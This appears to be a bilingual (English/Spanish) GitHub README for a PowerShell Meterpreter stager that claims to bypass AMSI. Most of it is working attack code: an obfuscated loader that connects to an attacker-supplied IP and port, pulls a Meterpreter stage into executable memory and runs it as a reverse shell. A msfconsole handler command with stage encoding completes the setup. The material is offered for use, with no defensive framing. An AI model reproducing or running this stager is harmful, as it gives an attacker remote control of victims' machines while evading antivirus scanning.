# Meterpreter-Powershell

This repo contains a simple meterpreter session in powershell bypassing amsi

1. [English](#English "Goto English")
2. [Code Meterpreter](#Code Meterpreter "Goto Code Meterpreter")
3. [Use](#Use "Goto Use")
4. [Spanish](#Spanish "Goto Spanish")
5. [Codigo Meterpreter](#Codigo Meterpreter "Goto Codigo Meterpreter")
6. [Uso](#Uso "Goto Uso")
7. [Video Poc (Uso/Use](#Video Poc (Uso/Use "Goto Video Poc (Uso/Use")

## English 
# Code Meterpreter #

[!] This code meterpreter only work with Powershell 32 bits
Path Powershell 32 bits = %WinDir%\syswow64\windowspowershell\v1.0\powershell.exe
Replace "192.168.56.1" and 443, for your data

```
$ip = "192.168.56.1"; $port = 443; $c = @"
[D#ll#Imp#ort("ker#ne#l32.#dll")] publi#c static e#xtern In#tPtr Virt#ualAl#loc(Int#Ptr w, ui#nt x, ui#nt y, ui#nt z);
[Dl#lI##mpor#t("kern#el32.d#ll")] pub#lic st#atic ex#tern Int#Ptr Cr#eate#Thr#ead(Int#Ptr u, u#int v, IntP#tr w, Int#Ptr x, ui#nt y, IntPtr z);
"@.replace("#", "")
try{$s = New-Object System.Net.Sockets.Socket ([System.Net.Sockets.AddressFamily]::InterNetwork, [System.Net.Sockets.SocketType]::Stream, [System.Net.Sockets.ProtocolType]::Tcp)
$s.Connect($ip, $port) | out-null; $p = [Array]::CreateInstance("byte", 4); $x = $s.Receive($p) | out-null; $z = 0
$y = [Array]::CreateInstance("byte", [BitConverter]::ToInt32($p,0)+5); $y[0] = 0xBF
while ($z -lt [BitConverter]::ToInt32($p,0)) { $z += $s.Receive($y,$z+5,1,[System.Net.Sockets.SocketFlags]::None) }
for ($i=1; $i -le 4; $i++) {$y[$i] = [System.BitConverter]::GetBytes([int]$s.Handle)[$i-1]}
$t = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru; $x=$t::VirtualAlloc(0,$y.Length,0x3000,0x40)
[System.Runtime.InteropServices.Marshal]::Copy($y, 0, [IntPtr]($x.ToInt32()), $y.Length)
$t::CreateThread(0,0,$x,0,0,0) | out-null; Start-Sleep -Second 86400;  Start-Sleep -Second 86400; Start-Sleep -Second 86400; Start-Sleep -Second 86400}catch{}
```

# Use #
Start msfconsole with next command, replace "YourIp" and "YourPort" for your data
```
msfconsole -x "set lhost YourIp; set lport YourPort; set payload windows/meterpreter/reverse_tcp; set EnableStageEncoding true; set StageEncoder x86/xor_dynamic; run"
```

## Spanish 
# Codigo Meterpreter #

[!] Este codigo de Meterpreter solo funciona en la PowerShell de 32 Bits 
Ruta Powershell de 32 bits = %WinDir%\syswow64\windowspowershell\v1.0\powershell.exe
Reemplaza "192.168.56.1 y 443, por tus datos

```
$ip = "192.168.56.1"; $port = 443; $c = @"
[D#ll#Imp#ort("ker#ne#l32.#dll")] publi#c static e#xtern In#tPtr Virt#ualAl#loc(Int#Ptr w, ui#nt x, ui#nt y, ui#nt z);
[Dl#lI##mpor#t("kern#el32.d#ll")] pub#lic st#atic ex#tern Int#Ptr Cr#eate#Thr#ead(Int#Ptr u, u#int v, IntP#tr w, Int#Ptr x, ui#nt y, IntPtr z);
"@.replace("#", "")
try{$s = New-Object System.Net.Sockets.Socket ([System.Net.Sockets.AddressFamily]::InterNetwork, [System.Net.Sockets.SocketType]::Stream, [System.Net.Sockets.ProtocolType]::Tcp)
$s.Connect($ip, $port) | out-null; $p = [Array]::CreateInstance("byte", 4); $x = $s.Receive($p) | out-null; $z = 0
$y = [Array]::CreateInstance("byte", [BitConverter]::ToInt32($p,0)+5); $y[0] = 0xBF
while ($z -lt [BitConverter]::ToInt32($p,0)) { $z += $s.Receive($y,$z+5,1,[System.Net.Sockets.SocketFlags]::None) }
for ($i=1; $i -le 4; $i++) {$y[$i] = [System.BitConverter]::GetBytes([int]$s.Handle)[$i-1]}
$t = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru; $x=$t::VirtualAlloc(0,$y.Length,0x3000,0x40)
[System.Runtime.InteropServices.Marshal]::Copy($y, 0, [IntPtr]($x.ToInt32()), $y.Length)
$t::CreateThread(0,0,$x,0,0,0) | out-null; Start-Sleep -Second 86400;  Start-Sleep -Second 86400; Start-Sleep -Second 86400; Start-Sleep -Second 86400}catch{}
```

# Uso #
Inicia msfconsole con el siguiente comando, reemplaza "TuIp" y "TuPuerto" por tus datos respectivos
```
msfconsole -x "set lhost TuIp; set lport TuPuerto; set payload windows/meterpreter/reverse_tcp; set EnableStageEncoding true; set StageEncoder x86/xor_dynamic; run"
```

# Video Poc (Uso/Use) #



